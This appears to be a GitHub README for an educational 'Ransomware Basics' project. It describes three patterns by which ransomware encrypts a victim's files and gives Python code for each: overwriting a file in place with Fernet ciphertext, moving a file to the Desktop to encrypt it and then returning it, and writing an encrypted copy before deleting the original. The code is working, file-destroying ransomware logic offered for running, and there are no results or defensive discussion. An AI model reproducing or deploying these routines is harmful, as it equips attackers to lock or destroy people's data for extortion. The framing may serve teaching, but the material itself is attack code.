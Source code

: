 # Ransomware Basics

## How to install dependencies
``` 
python -m pip install fernet
```
## Category 1 
This type of ransomware opens a file, reads the contents and then writes the encryption into the file, thus overwriting it. This means that the content of the file is encrypted, but not necessarily the file itself, the file might not even be renamed.

### Running Category 1
``` 
python cat1.py
```

#### [Sample](https://github.com/JACTheCreator/RansomwareBasics/blob/master/cat1.py)
```python
def encrypt_file(key, file_name):
    with open(file_name, 'rb') as f:
        plain_text = f.read()
    cipher_suite = Fernet(key)
    cipher_text = cipher_suite.encrypt(plain_text)

    with open(file_name, 'wb') as f:
        f.write(cipher_text)
```

#### Result
Coming soon

## Category 2 
The file to be encrypted is moved to another directory where the ransomware encrypts the file, then moves the same file back into the original directory. Here the file might also be renamed.

#### Running Category 1
``` 
python cat2.py
```

#### [Sample](https://github.com/JACTheCreator/RansomwareBasics/blob/master/cat2.py)
```python
def encrypt_file(key, file_name):
    new_file_location = os.path.join(os.path.join(os.environ['USERPROFILE']), 'Desktop') 
    new_file_location_path = new_file_location + '\\' + os.path.basename(file_name)
    os.rename(os.path.abspath(file_name), new_file_location_path)

    with open(new_file_location_path, 'rb') as f:
        plain_text = f.read()
    
    cipher_suite = Fernet(key)
    cipher_text = cipher_suite.encrypt(plain_text)

    with open(new_file_location_path, 'wb') as f:
        f.write(cipher_text)
    
    os.rename(new_file_location_path, os.path.abspath(file_name))
```

#### Result
Coming soon

## Category 3 
Here the original file is read and a new encrypted file is made based on the original, next the original is overwritten or deleted

#### Running Category 3
``` 
python cat3.py
```

#### [Sample](https://github.com/JACTheCreator/RansomwareBasics/blob/master/cat3.py)
```python
def encrypt_file(key, file_name):
    encrypted_file_name = os.path.splitext(file_name)[0] + '_encrypted' + os.path.splitext(file_name)[1]
    with open(file_name, 'rb') as f:
        with open(encrypted_file_name, 'wb') as f_enc:
            plain_text = f.read()
            f_enc.write(plain_text)

    cipher_suite = Fernet(key)
    cipher_text = cipher_suite.encrypt(plain_text)

    with open(encrypted_file_name, 'wb') as f:
        f.write(cipher_text)
    
    os.remove(file_name)
```

#### Result
Coming soon

